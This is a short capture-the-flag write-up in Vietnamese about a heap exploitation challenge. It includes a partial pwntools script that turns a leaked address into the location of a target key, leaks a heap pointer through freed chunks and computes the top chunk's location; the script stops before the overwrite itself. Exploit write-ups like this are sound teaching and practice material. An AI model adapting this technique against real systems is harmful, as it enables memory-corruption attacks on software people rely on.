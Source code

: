 - lúc này sau khi malloc với cái size là offset vừa tính được , nó sẽ trả về 1 con trỏ  gần key 

- ta chỉ việc malloc lại với giá trị cần để thực thi hàm win , lúc này chunk chính là địa chỉ của key 

- change xong key thì lấy flag thôi


```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

exe = './chal_patched'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context(terminal=['tmux', 'split-window', '-h'])
libc = ELF("./libc.so.6", checksec=False)

io = start()

def create(idx, payload, size):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'> ', str(idx).encode('utf-8'))
    io.sendlineafter(b'> ', str(size).encode('utf-8'))
    io.sendlineafter(b'> ', payload)

def view(idx):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'> ', str(idx).encode('utf-8'))

def edit(idx, payload):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'> ', str(idx).encode('utf-8'))
    io.sendlineafter(b'> ', payload)

def remove(idx):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'> ', str(idx).encode('utf-8'))

# Calculate key address
io.recvuntil(b'gift: ')
mainleak = int(io.recvline()[:-1], 16)
key = mainleak + 0x200eb2
log.success("key %#x", key)

# Leak heap address
create(0, b'AAAA', 10)
create(1, b'BBBB', 10)
remove(0)
remove(1)
view(1)

# Calculate top chunk location
heapleak = u64((io.recvuntil(b'Choose')[:6].ljust(8, b'\x00')))
log.success("heap leak %#x", heapleak)
top_chunk = heapleak + 0x30 
```